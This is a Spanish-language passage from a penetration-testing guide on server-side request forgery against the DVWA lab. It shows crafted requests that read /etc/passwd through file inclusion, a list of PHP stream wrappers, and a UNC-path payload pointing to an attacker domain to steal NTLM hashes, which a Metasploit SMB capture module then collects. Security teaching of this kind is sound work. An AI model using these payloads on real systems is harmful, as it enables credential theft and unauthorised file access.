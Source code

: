 #### Cambio de protocolo <a href="#changing-protocol" id="changing-protocol"></a>

DVWA también acepta un esquema de URL https e intenta establecer una conexión cifrada:

```
GET /DVWA/vulnerabilities/f?page=https://test:pwd@127.0.0.1:21/ssl HTTP/1.1
```

Dado que estamos usando una conexión de texto plano netcat, solo vemos el intento de establecer SSL a nuestro oyente

También se acepta el esquema 'file://', lo que resulta en la inclusión de archivos.

```
GET /DVWA/vulnerabilities/f?file=http:///etc/passwd HTTP/1.1
```

Siempre puede probar más controladores de protocolos

https://www.php.net/manual/en/wrappers.php

```
- file:// # accessing local filesystem
- http:// # accessing HTTP(s) URLs
- ftp://  # accessing FTP(s) URLs
- php://  # accessing various I/O streams
- zlib:// # compression streams
- data:// # data (RFC 2397)
- glob:// # find pathnames matching patterns
- phar:// # php archive
- ssh2:// # secure shell 2
- rar://  # rar
- ogg://  # audio streams
- expect:// # process interaction streams
```

#### Atacar SSRF en Windows <a href="#attacking-ssrf-on-windows" id="attacking-ssrf-on-windows"></a>

Puede intentar acceder a una ruta UNC en el siguiente formato:

```
file:///\\attackerdomain\sharename
```

* https://docs.microsoft.com/en-us/openspecs/windows\_protocols/ms-dtyp/62e862f4-2a51-452e-8eeb-dc4ff5ee33cc

Si el servidor intenta autenticarse en un recurso compartido falso, es posible que pueda robar su hash de contraseña NTLM. El hash puede estar sujeto a más descifrado fuera de línea.

Los intentos de autenticación SMB se pueden capturar (por ejemplo, utilizando el módulo metasploit)

```
auxiliary/server/capture/smb
```

#### Otros escenarios de la SSRF <a href="#other-ssrf-scenarios" id="other-ssrf-scenarios"></a>
